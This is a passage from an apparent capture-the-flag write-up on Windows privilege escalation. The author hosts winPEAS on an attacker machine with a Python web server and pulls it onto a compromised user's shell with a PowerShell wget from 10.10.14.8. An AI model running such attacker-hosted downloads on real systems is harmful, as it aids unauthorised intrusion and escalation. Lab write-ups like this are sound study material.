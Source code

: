 We only got ```user``` level access in the machine

To get ```admin or NT-AUTHORITY\SYSTEM``` level access, we need to escalate our privilege

It takes a lot of time to enumerate the weakness for escalating privileges manually

Lets use ```winPEAS``` to enumerate all possible weakness in privilege

Clone this repo for [winPEAS](https://github.com/carlospolop/PEASS-ng)

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/…/winPEAS/winPEASexe/binaries/Release]
└─$ ls
winPEASany.exe
                                                                                                                                                 
┌──(aidenpearce369㉿aidenpearce369)-[~/…/winPEAS/winPEASexe/binaries/Release]
└─$ python3 -m http.server 4545           
Serving HTTP on 0.0.0.0 port 4545 (http://0.0.0.0:4545/) ...
```

```c
C:\Users\Phoebe>powershell wget http://10.10.14.8:4545/winPEASany.exe -outfile privesc.exe
powershell wget http://10.10.14.8:4545/winPEASany.exe -outfile privesc.exe

C:\Users\Phoebe>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of C:\Users\Phoebe

09/15/2021  02:00 AM    <DIR>          .
09/15/2021  02:00 AM    <DIR>          ..
04/12/2021  03:50 PM    <DIR>          3D Objects
04/12/2021  03:50 PM    <DIR>          Contacts
04/13/2021  03:20 AM    <DIR>          Desktop
04/12/2021  03:50 PM    <DIR>          Documents
04/13/2021  09:55 AM    <DIR>          Downloads
04/12/2021  03:50 PM    <DIR>          Favorites
04/12/2021  03:50 PM    <DIR>          Links
04/12/2021  03:50 PM    <DIR>          Music
04/12/2021  03:52 PM    <DIR>          OneDrive
04/21/2021  07:01 AM    <DIR>          Pictures
09/15/2021  02:00 AM         1,924,608 privesc.exe
04/12/2021  03:50 PM    <DIR>          Saved Games
04/12/2021  03:51 PM    <DIR>          Searches
04/23/2021  03:39 AM    <DIR>          Videos
               1 File(s)      1,924,608 bytes
              15 Dir(s)   4,054,089,728 bytes free

C:\Users\Phoebe>
```

Lets run our ```winPEAS``` to find all possible weakness, but it displays a lot of information and it requires a proper study to understand

